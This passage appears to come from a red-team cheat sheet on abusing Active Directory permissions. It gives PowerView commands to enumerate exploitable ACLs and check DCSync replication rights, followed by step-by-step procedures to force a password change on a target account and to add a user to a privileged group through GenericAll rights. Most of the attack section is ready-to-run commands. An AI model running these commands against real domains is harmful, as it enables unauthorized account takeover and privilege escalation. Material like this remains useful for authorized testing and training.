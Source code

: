    * If GenericAll applies to a `user` or a `group`, you can modify memberships, force password change or perform a targeted Kerberoasting attack
   * If GenericAll applies to a `computer object` and LAPS is in use, you can read the LAPS password and gain local admin access on the target machine

### **ACL Enumeration**

**Manual ACL Enumeration with PowerView:**

1. Always start by importing the PowerView module in the current PS session: `Import-Module .\PowerView.ps1`
2. Find interesting ACLs: `Find-InterestingDomainAcl`
3. Get target user's sid: `$sid = Convert-NameToSid targetuser`
4. Check target user group membership: `Get-DomainUser -Identity targetuser | select samaccountname,objectsid,memberof,useraccountcontrol | fl`
5. Find all domain object that the user has rights over: `Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
6. Discover an object's ACL based on its GUID: `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
7. Check target user (by SID) to check replication rights (DCSync): `$sid= "SID-VALUE" Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`

**ACL Enumeration with BloodHound:**\
Refer to the previous section

***

### **ACL Abuse Tactics**

> **Prerequisite:** You must have previously found one of the following ACLs by using bloodhound or manual enumeration techniques

#### **Abusing ForcePasswordChange to Change a User's Password**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a new target user password:
   * `$targetUserNewPassword = ConvertTo-SecureString 'blabla' -AsPlainText -Force`
3. Change the target user's password using PowerView:
   * `Import-Module .\PowerView.ps1`
   * `Set-DomainUserPassword -Identity targetUsername -AccountPassword $targetUserNewPassword -Credential $Cred -Verbose`

#### **Abusing GenericAll to Add the Current User to a Group**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Show the current members of the target group:
   * `Get-ADGroup -Identity "Target Group" -Properties * | Select -ExpandProperty Members`
3. Add the current user to the target group:
   * `Add-DomainGroupMember -Identity 'Target Group' -Members 'targetuser' -Credential $Cred -Verbose`
4. Confirm the user was added:
   * `Get-DomainGroupMember -Identity "Target Group" | Select MemberName`
